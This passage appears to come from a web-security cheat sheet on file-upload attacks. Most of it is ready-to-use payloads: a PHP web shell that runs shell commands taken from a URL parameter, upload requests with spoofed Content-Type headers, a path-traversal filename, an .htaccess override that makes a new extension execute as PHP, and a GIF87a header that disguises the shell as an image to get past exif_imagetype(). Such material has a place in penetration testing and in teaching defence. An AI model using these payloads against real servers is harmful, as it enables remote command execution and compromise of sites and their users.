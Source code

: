 If you cannot upload with "Content-Type: application/x-php", try changing it to other types.

```html
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg <!-- or image/gif, plain/text, etc. -->

<?php echo system($_GET['cmd']); ?>

------abcdefghijk
```

### Path Traversal with the File Name

You may be able to edit the upload location by changing the **"filename"**.

```txt
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename="..%2fexploit.php"
Content-Type: application/x-php

<?php echo system($_GET['cmd']); ?>

------abcdefghijk
```

### Server Configurations

You may be able to override the ".htaccess".

```txt
POST /upload HTTP/1.1
...

------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

### Camouflage as Image Files

We can also bypass exif_imagetype() of PHP by editing the contents in the payload as image file.  
Depending on the case, change the **"Content-Type"** value to **"image/jpeg"** or **"image/gif"**.

**GIF87a** is the original format for indexed color images. It uses LZW compression and has the option of being interlaced.

```php
GIF87a
<?php echo system($_GET['cmd']); ?>
```
